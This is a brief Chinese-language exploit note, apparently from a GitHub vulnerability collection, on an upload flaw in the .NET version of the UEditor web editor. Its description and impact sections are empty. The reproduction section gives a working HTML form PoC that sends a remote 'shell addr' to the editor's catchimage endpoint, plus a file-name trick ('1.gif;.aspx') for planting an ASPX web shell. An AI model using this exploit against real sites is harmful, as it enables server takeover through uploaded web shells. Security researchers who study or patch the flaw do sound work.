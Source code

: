 # ueditor .net版本上传漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

本地上传poc


```html
<form action="http://www.xxxxx.com/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
shell addr: <input type="text" name="source[]" />
 <input type="submit" value="Submit" />
</form>
```

上传文件名为 1.gif;.aspx